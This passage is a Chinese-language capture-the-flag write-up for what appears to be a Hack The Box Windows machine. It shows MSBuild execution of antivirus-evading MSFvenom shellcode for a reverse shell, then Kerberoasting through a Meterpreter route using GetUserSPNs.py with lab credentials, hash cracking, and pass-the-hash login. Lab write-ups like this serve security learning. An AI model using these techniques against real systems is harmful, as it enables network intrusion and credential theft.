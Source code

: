 成功获得了 user 和 root 信息...

这里应该是取巧获得了 user 和 root 信息... 如果没用 NTML 哈希，继续思考还能怎么提权..

方法 2：

![](https://mmbiz.qpic.cn/mmbiz_png/ru93nXbREC3lsblTT6unZTCoWcPia8D84uaTauv8WPKZPQAePE6Emc28HfL5UqaUs7ia4J1pib3JRW5sS6TnHViazA/640?wx_fmt=png)

```
https://www.blackhillsinfosec.com/a-toast-to-kerberoast/
```

利用 Kerberoast 进行攻击，需要利用 msf

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNucSkib8tMqgRrR0aTX4gBDxpdl9R1VKXtrTIA7svsgiarm17icNEia1oztmK3kF94f8ibEuDuYmQt4GA/640?wx_fmt=png)

在 shellcode 部分中，将用 MSFvenom 替换要生成的代码，将其编码为 100，以避免被防病毒软件检测到... 配合

```
https://raw.githubusercontent.com/3gstudent/msbuild-inline-task/master/executes%20shellcode.xml
```

生成 EXP 即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNucSkib8tMqgRrR0aTX4gBDUGiauH74AHv04QZwoXeicDeygnibkwF6iaUv8t3gF55DOIjNPuqQicOY7zA/640?wx_fmt=png)

可以看到，上传了 xml 文件，但是转换成了. bin 文件，这不要紧...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNucSkib8tMqgRrR0aTX4gBD6qSw16SopiaJFhynwvb6cvgCDkjibbnrDZGepXjNMLKT58pBwGqTpIibw/640?wx_fmt=png)

```
mv .\c53d75a50e089ebe3e39214838d75b04e56324a0.bin  dayushell2.csproj
C:\Windows\Microsoft.NET\Framework\v4.0.30319\Msbuild.exe dayushell2.csproj
```

通过将 bin 文件修改回 csproj 即可... 然后利用 Msbuild 执行 csproj 的 shellcode... 成功获得了反向外壳...

```
https://www.blackhillsinfosec.com/a-toast-to-kerberoast/
```

这里将利用 kerberoasting 进行提权...

有了一个 meterpreter 会话后，可以添加路由并设置代理，然后使用代理 GetUserSPNs.py 并查看是否有任何用户可以使用 kerberoastable...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNucSkib8tMqgRrR0aTX4gBDf2aGngXgEviamr5vH3K5ETJwee9HVRsS2a80tvPceVJ7wkLxWkEQA7Q/640?wx_fmt=png)

配置 proxychains 为使用端口 8080，route add 10.10.10.0 255.255.255.0 1 这将添加整个内部子网的路由，其中 1 为会话号...

```
proxychains GetUserSPNs.py -request -dc-ip 10.10.10.103 HTB.LOCAL/amanda:Ashare1972
```

然后获得了 mrlky 的哈希值...john 破解后，继续和方法 1 一样，获得 user 和 root.... 或者使用

```
[wmiexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py)
```

进行 hashes 哈希值登陆也能获得信息...  
